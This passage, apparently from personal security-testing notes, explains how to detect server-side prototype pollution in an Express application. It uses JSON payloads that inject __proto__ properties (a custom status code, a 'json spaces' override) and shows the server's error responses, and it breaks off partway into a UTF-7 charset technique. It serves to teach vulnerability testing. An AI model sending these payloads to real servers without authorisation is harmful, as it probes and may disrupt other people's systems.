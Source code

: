 For example, try looking for a POST request with JSON data. The server may respond with a JSON object as well:

![[POST JSON.png]]

Try polluting the object prototype with a new property:

![[No Reflection.png]]

If no reflection, try breaking JSON syntax and observe the response:

```http
HTTP/2 500 Internal Server Error
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Etag: W/"151-iTEyRZluqY68DQzfcuX5qAlgCJ4"
Date: Sun, 20 Oct 2024 20:00:34 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 337

{"error":{"expose":true,"statusCode":400,"status":400,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"US\",\"sessionId\":\"uuRWSzCFQl6WAGtaRbZuWp8SHrk4CkCg\"\r\n\"__proto__\":{\r\n\"foo\":\"bar\"}}","type":"entity.parse.failed","foo":"bar"}}
```

There is a different code returned in the JSON from the headers. Try polluting the object prototype with a status property set to a value like 555:

```json
{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"US","sessionId":"uuRWSzCFQl6WAGtaRbZuWp8SHrk4CkCg"
"__proto__": {
    "status":555
}}
```

Create another error and observe the response for a custom status code:

```json
{"error":{"expose":false,"statusCode":555,"status":555,"body":"{\"address_line_1\":\"Wiener HQ\",\"address_line_2\":\"One Wiener Way\",\"city\":\"Wienerville\",\"postcode\":\"BU1 1RP\",\"country\":\"US\",\"sessionId\":\"uuRWSzCFQl6WAGtaRbZuWp8SHrk4CkCg\"\r\n\"__proto__\": {\r\n    \"status\":555\r\n}}","type":"entity.parse.failed","foo":"bar"}}
```

If successful, the object prototype is polluted, confirming the vulnerability.

Another way may be JSON spaces by first observing a normal response and checking if any spaces are present. If not, try setting a `json spaces` value to 100 and observe the response:

![[JSON Spaces.png]]

If it changes, it confirms the vulnerability. 

The final way may be via a charset override. Try encoding a certain property to UTF-7:
